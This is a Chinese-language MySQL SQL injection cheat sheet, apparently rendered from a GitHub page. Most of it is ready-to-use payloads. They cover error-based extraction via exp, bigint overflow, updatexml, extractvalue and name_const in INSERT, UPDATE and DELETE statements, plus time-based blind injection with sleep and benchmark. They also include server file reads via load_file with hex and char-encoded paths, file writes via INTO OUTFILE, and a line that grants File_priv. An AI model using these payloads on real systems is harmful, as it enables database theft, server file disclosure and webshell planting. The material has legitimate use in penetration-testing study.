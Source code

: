- 新手法（mysql>>5.5.5）
  - Exp()为以 e 为底的对数函数，利用它来报错（[http://www.cnblogs.com/lcamry/articles/5509124.html](http://www.cnblogs.com/lcamry/articles/5509124.html) 、 [http://www.lijiejie.com/mysql-injection-bypass-waf-3](http://www.lijiejie.com/mysql-injection-bypass-waf-3/)）：
    - select exp(~(select * FROM(SELECT USER())a));
  - bigint 超出范围来报错，~0 是对 0 逐位取反，前面-是减号（[http://www.cnblogs.com/lcamry/articles/5509112.html](http://www.cnblogs.com/lcamry/articles/5509112.html)）：
    - select !(select * from (select user())x) - ~0;
  - mysql 重复特性，此处重复了 version，所以报错，无版本限制：
    - select \* from (select NAME\_CONST(version(),1),NAME_CONST(version(),1))x;
  - updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数，xpath 语法错误让其报错（[http://www.vuln.cn/6772](http://www.vuln.cn/6772)）：
    - INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(1,concat(0x3a,0x3a,(version()),0x3a,0x3a),0) or'', 'Nervo');
    - UPDATE users SET password='Nicky' or updatexml(2,concat(0x3a,0x3a,(version()),0x3a,0x3a),0) or''WHERE id=2 and username='Olivia';
    - DELETE FROM users WHERE id=2 or updatexml(1,concat(0x3a,0x3a,(version()),0x3a,0x3a),0) or'';
    - 核心：and updatexml(1,concat(0x7e,(select @@version),0x7e),1);
  - extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数，xpath 语法错误让其报错，详细博文同上：：
    - INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x3a,0x3a,database(),0x3a,0x3a)) or'', 'Nervo');
    - UPDATE users SET password='Nicky' or extractvalue(1,concat(0x3a,0x3a,database(),0x3a,0x3a)) or'' WHERE id=2 and username='Nervo';
    - DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x3a,0x3a,database(),0x3a,0x3a)) or'';
    - 核心：and extractvalue(1,concat(0x7e,(select @@version),0x7e));
  - name\_const()函数是MYSQL5.0.12版本加入的一个返回给定值的函数。当用来产生一个结果集合列时 , NAME_CONST() 促使该列使用给定名称。详细博文同上：
    - INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT * FROM (SELECT(name\_const(version(),1)),name_const(version(),1))a) or '','Nervo');
    - UPDATE users SET password='Nicky' or (SELECT * FROM (SELECT(name_const(version(),1)),name\_const(version(),1))a) or '' WHERE id=2 and username='Nervo';
    - DELETE FROM users WHERE id=1 or (SELECT * FROM (SELECT(name_const(version(),1)),name\_const(version(),1))a)or '';
    - 核心：union SELECT * FROM (SELECT(name\_const(version(),1)),name\_const(version(),1))a;
  - 利用子查询注入，详细博文同上；

#### 基于时间的 SQL 盲注，延时注入（if语句判断）

- if 判断语句，条件为假，执行 sleep：
  - select If(ascii(substr(database(),1,1))!=115,0,sleep(5));
- BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的 cpu 资源。了解即可。

### 导入导出的相关操作

- load\_file() 导出文件
  - Load\_file(file\_name):读取文件并返回该文件的内容作为一个字符串。
  - 使用条件：
    - A、必须有权限读取并且文件必须完全可读；
      select count(\*) from mysql.user>0/\* 如果结果返回正常,说明具有读写权限。
    - B、欲读取文件必须在服务器上；
    - C、必须指定文件完整的路径；
    - D、欲读取文件必须小于 max\_allowed\_packet ；
    - 一句话：只要不降权，并且知道`绝对路径`，放心去读；
  - 使用例子：
    - Select 1,2,load\_file("/var/www/html/1.php");
    - Select 1,2,load\_file(char(47,118,97,114,47,119,119,119,47,104,116,109,108,47,49,46,112,104,112));
    - Select 1,2,load\_file(0x2F7661722F7777772F68746D6C2F312E706870);
    - 分别利用直接读取， char ， 16进制Hex（必须带0x）来读取 /var/www/html/1.php 内容；
- into outfile ' ' 导入到文件
  - SELECT.....INTO OUTFILE 'file_name'
  - 可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有 FILE权限，才能使用此语法。file_name 不能是一个已经存在的文件。 
    - 没有file权限可以强制更改权限：
    - UPDATE user set File_priv ='Y';